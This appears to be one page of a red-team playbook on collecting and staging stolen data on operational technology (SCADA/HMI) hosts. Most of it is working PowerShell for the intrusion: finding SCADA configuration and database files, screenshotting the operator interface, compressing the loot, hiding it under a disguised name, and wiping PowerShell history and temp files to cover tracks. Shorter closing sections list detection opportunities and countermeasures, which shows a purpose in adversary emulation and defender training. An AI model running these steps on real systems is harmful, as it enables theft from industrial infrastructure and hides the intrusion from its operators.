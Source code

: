 # Step 7: Collection & Staging

**Objective**:
- Identify and gather sensitive OT system data (e.g., SCADA configuration files, logs, or database exports) relevant to operational technology processes.
Compress and stage this data stealthily on the OT host, preparing it for covert exfiltration without alerting defenders.
---

## Context

- Operator has established persistence and appropriate credentials on OT subnet hosts.
- Access to OT file shares, local storage, and system resources is available.
- Native Windows tools and living-off-the-land binaries (LOLBins) are leveraged to avoid introducing suspicious software.
- The OT environment has limited or specialized monitoring compared to IT networks, requiring subtlety.

---

## Execution

### 1.Discover Data of Interest
Explore directories likely to contain sensitive OT data:
#### Search common locations
```powershell
Get-ChildItem "C:\SCADA" -Recurse -Include *.xml, *.csv, *.bak, *.mdb, *.sdf
Get-ChildItem "C:\Program Files\*" -Recurse -Include *.config
```
Check network shares:
#### Discover shared drives
```powershell
net use
Get-SmbShare
```

### 2. Copy or Aggregate the Files
Copy interesting files to a working directory on the local machine:
```powershell
New-Item -ItemType Directory -Path C:\ProgramData\logs -Force
Copy-Item "C:\SCADA\config.xml" -Destination "C:\ProgramData\logs\" -Force
Copy-Item "C:\ProgramData\control.db" -Destination "C:\ProgramData\logs\" -Force
```

### 3. Take a Screenshot of HMI
```powershell
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$bounds = [System.Windows.Forms.Screen]::PrimaryScreen.Bounds
$bitmap = New-Object System.Drawing.Bitmap $bounds.Width, $bounds.Height
$graphics = [System.Drawing.Graphics]::FromImage($bitmap)
$graphics.CopyFromScreen($bounds.Location, [System.Drawing.Point]::Empty, $bounds.Size)
$bitmap.Save("C:\ProgramData\logs\hmi_screen.png")
```

### 4. Compress the Collected Data
Use native Windows utilities to compress the data:
```powershell
makecab.exe C:\ProgramData\logs\config.xml C:\ProgramData\logs\archive.dbx
```

### 5. Obfuscate and Hide the Staged File
Make it harder to detect:
#### Rename and hide the file
```powershell
Rename-Item -Path "C:\ProgramData\logs\archive.dbx" -NewName "syslog.dbx"
attrib +h +s "C:\ProgramData\logs\syslog.dbx"
```

### 6. Clean Up
Wipe PowerShell history and enviorment variables:
```powershell
Remove-Item (Get-PSReadlineOption).HistorySavePath
Clear-Content "$env:TEMP\*"
```

---

## Result

- Sensitive OT data is successfully located, copied, and compressed into a single archive file.
- The archive is stored in a legitimate-looking, hidden directory on the OT host with timestamps and naming conventions designed to avoid detection.
- The file remains accessible for retrieval during a subsequent exfiltration phase.
- Minimal forensic footprint is left behind by the compression and staging activity.

---

## Detection Opportunities

- File system monitoring detecting unusual file creation or modification in directories such as `C:\ProgramData\`, `C:\Windows\Temp\`, or rarely used folders.
- Execution of archive or compression tools (makecab.exe, Compress-Archive) within OT systems, especially if uncommon.
- Creation of new or modified hidden files with unusual extensions (e.g., .dbx, .blk) that deviate from normal system file baselines.
- Increased read activity on sensitive OT file shares or config directories outside typical maintenance windows.
- Abnormal user activity patterns, such as local admin sessions executing PowerShell or command line tools for file operations.
- Unusual network traffic if staging triggers data movement to other hosts (monitor SMB, HTTP, or custom tunnels).

---

## Defensive Countermeasures

- Implement and tune file integrity monitoring (FIM) on critical OT directories to alert on unauthorized file changes or creation.
- Enable process monitoring and alerting for the execution of compression utilities or uncommon binaries on OT systems.
- Enforce strict access controls and auditing on OT file shares and configuration repositories, limiting access to only authorized personnel and systems.
- Apply behavioral analytics to detect abnormal file access patterns and privilege escalations.
- Deploy endpoint detection and response (EDR) solutions capable of identifying suspicious PowerShell usage and living-off-the-land technique patterns.
- Regularly update OT system baselines to recognize legitimate versus anomalous activity, refining detection rules over time.
- Train blue teams to correlate suspicious local file system activity with broader lateral movement or exfiltration indicators.
